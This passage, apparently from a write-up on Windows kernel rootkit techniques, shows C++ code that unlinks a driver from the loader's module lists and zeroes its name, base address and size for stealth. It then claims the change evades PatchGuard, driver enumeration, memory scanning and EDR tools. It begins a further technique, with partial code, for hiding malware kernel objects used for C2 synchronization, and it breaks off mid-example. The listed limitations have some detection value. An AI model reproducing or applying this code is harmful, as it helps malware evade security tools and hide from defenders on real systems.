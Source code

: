 ```cpp
pInitFlink->Blink = pInitBlink;

// Orphan all lists
pLdrEntry->InLoadOrderLinks.Flink = &pLdrEntry->InLoadOrderLinks;
pLdrEntry->InLoadOrderLinks.Blink = &pLdrEntry->InLoadOrderLinks;
pLdrEntry->InMemoryOrderLinks.Flink = &pLdrEntry->InMemoryOrderLinks;
pLdrEntry->InMemoryOrderLinks.Blink = &pLdrEntry->InMemoryOrderLinks;
pLdrEntry->InInitializationOrderLinks.Flink = &pLdrEntry->InInitializationOrderLinks;
pLdrEntry->InInitializationOrderLinks.Blink = &pLdrEntry->InInitializationOrderLinks;

// Zero out identifying information (optional stealth)
RtlZeroMemory(&pLdrEntry->FullDllName, sizeof(UNICODE_STRING));
RtlZeroMemory(&pLdrEntry->BaseDllName, sizeof(UNICODE_STRING));
pLdrEntry->DllBase = NULL;
pLdrEntry->SizeOfImage = 0;
```

**Detection Evasion:**
- PatchGuard: NOT TRIGGERED (data-only modification)
- Driver Enumeration APIs: BYPASSED (not in any list)
- Memory Scanning: BYPASSED if DllBase/SizeOfImage zeroed
- EDR Driver Scanning: BYPASSED

**Limitations:**
- Driver still occupies memory (physical memory scanning can detect)
- Kernel callbacks registered by driver remain active (behavioral detection possible)
- Big pool allocations still tracked (pool tag scanning can detect)

### Technique 3: Object Attribute Manipulation

**Objective:** Hide kernel objects (events, mutexes, semaphores) created by malware

**Method:**
1. Create kernel object (e.g., named event for C2 synchronization)
2. Locate OBJECT_HEADER for created object
3. Clear `NameInfo` field to remove name from Object Manager namespace
4. Object remains accessible via handle but invisible to name enumeration

**Kernel Code Example:**

```cpp
// Create named event
HANDLE hEvent = NULL;
UNICODE_STRING usEventName = RTL_CONSTANT_STRING(L"\\BaseNamedObjects\\MalwareSync");
OBJECT_ATTRIBUTES objAttr;
InitializeObjectAttributes(&objAttr, &usEventName, OBJ_KERNEL_HANDLE, NULL, NULL);

PKEVENT pEvent = NULL;
NTSTATUS status = ZwCreateEvent(&hEvent, EVENT_ALL_ACCESS, &objAttr, NotificationEvent, FALSE);
if (!NT_SUCCESS(status)) return status;

// Get KEVENT object pointer from handle
status = ObReferenceObjectByHandle(hEvent, EVENT_ALL_ACCESS, *ExEventObjectType, KernelMode, (PVOID*)&pEvent, NULL);
if (!NT_SUCCESS(status)) {
    ZwClose(hEvent);
    return status;
}

// Calculate OBJECT_HEADER from KEVENT pointer
// OBJECT_HEADER precedes the object body
// Note: These macros are implementation-specific, actual offsets vary by Windows version
#ifndef OBJECT_TO_OBJECT_HEADER
#define OBJECT_TO_OBJECT_HEADER(obj) \
    ((POBJECT_HEADER)((ULONG_PTR)(obj) - FIELD_OFFSET(OBJECT_HEADER, Body)))
#endif
```